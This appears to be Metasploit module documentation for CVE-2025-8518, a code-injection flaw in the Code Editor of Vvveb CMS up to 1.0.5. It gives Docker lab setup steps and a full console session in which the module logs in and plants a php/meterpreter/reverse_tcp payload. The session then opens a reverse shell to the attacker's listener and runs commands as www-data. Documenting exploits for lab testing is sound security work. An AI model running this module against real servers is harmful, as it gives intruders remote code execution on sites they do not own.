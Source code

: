 ## Vulnerable Application

[Vvveb CMS](https://github.com/givanz/Vvveb) is vulnerable to code injection via the Code Editor functionality.

Unsanitized editing functionality allows attacker-controlled changes to existing files on the web-accessible filesystem, 
allowing remote authenticated attackers with access to the Code Editor to achieve code execution 
when those modified files are executed or served by the application or web server.

This vulnerability affects Vvveb CMS versions up to and including 1.0.5.
Successful exploitation may result in the remote code execution under the privileges
of the web server, potentially exposing sensitive data or disrupting survey operations.

An attacker can execute arbitrary system commands in the context of the user running the web server.

## Testing

1. Open `data/exploits/CVE-2025-8518` folder and use Docker Compose to set up the Vvveb CMS app

`docker compose up -d --build`

2. Open http://127.0.0.1:8080/ and make sure the app is available

3. Fill in the installation form with the following details:

Database engine: MySQL / MariaDB
Database host: mysql
Database name: vvveb
Database username: root
Database password: root

4. On the next form, you need to enter the admin password or provide your own.

5. Log in with your credentials at http://127.0.0.1:8080/admin
Username: admin 
Password: the one you provided in the previous step

## Scenario

### php/meterpreter/reverse_tcp

```
msf6 > use multi/http/vvveb_auth_rce_cve_2025_8518
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set RHOSTS 127.0.0.1
RHOSTS => 127.0.0.1
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set RPORT 8080
RPORT => 8080
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set PASSWORD 12345
PASSWORD => 12345
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf6 exploit(multi/http/vvveb_auth_rce_cve_2025_8518) > run verbose=true

[*] Started reverse TCP handler on 172.17.0.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Fetching CSRF token...
[+] Token successfully fetched: 
[*] Attempting login...
[+] Login successful
[*] Checking version...
[+] The target appears to be vulnerable. Detected version 1.0.5, which is vulnerable
[*] Identifying the active theme path...
[+] Theme path successfully identified: /public/themes/blog-default/theme.php
[*] Setting up payload...
[+] Payload setup complete
[*] Triggering payload...
[*] Sending stage (40004 bytes) to 172.24.0.3
[*] Meterpreter session 1 opened (172.17.0.1:4444 -> 172.24.0.3:59256) at 2025-10-18 20:08:08 -0400

meterpreter > sysinfo
Computer    : 0c6eb9a3e896
OS          : Linux 0c6eb9a3e896 6.11.2-amd64
Meterpreter : php/linux
meterpreter > getuid
Server username: www-data
```